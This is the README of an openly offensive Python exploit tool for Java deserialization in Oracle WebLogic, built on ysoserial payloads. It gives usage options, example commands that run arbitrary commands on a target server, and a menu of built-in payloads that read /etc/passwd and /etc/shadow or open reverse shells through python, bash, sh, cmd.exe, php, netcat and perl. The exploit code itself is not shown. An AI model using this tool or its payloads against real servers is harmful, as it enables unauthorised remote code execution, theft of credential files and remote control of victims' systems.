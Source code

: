 # JavaUnserializeWeblogic v1.0

Coded By Joel Noguera - @niemand_sec
- Based on https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/weblogic.py

- Payload are being generated using https://github.com/frohoff/ysoserial


# Usage

```
usage: webloic.py [-h] [-ly] [-lp] [-p PAYLOAD] [-pt PAYLOAD_TYPE] [-H HOST]
                  [-P PORT] [-LH LOCAL_HOST] [-LP LOCAL_PORT]

OPTIONS:
  -h, --help            show this help message and exit
  -ly, --list_ysoserial
                        List available ysoserial payload types
  -lp, --list_payloads  List available exploit payloads
  -p PAYLOAD, --payload PAYLOAD
                        Set custom payload to execute on server
  -pt PAYLOAD_TYPE, --payload_type PAYLOAD_TYPE
                        Set ysoserial payload type
  -H HOST, --host HOST  IP from the HOST
  -P PORT, --port PORT  Port where WebLogic is listening
  -LH LOCAL_HOST, --local_host LOCAL_HOST
                        IP from the HOST
  -LP LOCAL_PORT, --local_port LOCAL_PORT
                        Port where WebLogic is listening

Example: python webloic.py-H 127.0.0.1 -P 7001 -p 'uname -a' -pt
CommonsCollections1 python webloic.py-H 127.0.0.1 -P 7001 -p 4
```

Available payloads (-lp option):

```    
Available exploit payloads:
                1-  Attempt to retrieve /etc/passwd file
                2-  Attempt to retrieve /etc/shadow file
                3-  whoami
                4-  Attempt to get reverse shell (python) - Linux
                5-  Attempt to get reverse shell (/bin/bash) - Linux
                6-  Attempt to get reverse shell (/bin/sh) - Linux
                7-  Attempt to get reverse shell (cmd.exe) - Windows
                8-  Attempt to get reverse shell (php) - Linux
                9-  Attempt to get reverse shell (netcat) - Linux
                10- Attempt to get reverse shell (perl) - Linux

```

# Requirements

Drop your ysoserial version in the same folder and modify the file name (if different) in the `line 161`

# Todo:
- Add dynamic link to ysoserial
- Add dynamic payload TLS support (--ssl option, should be simple)
- Add support to older versions 10.6.3 (test if supported first)
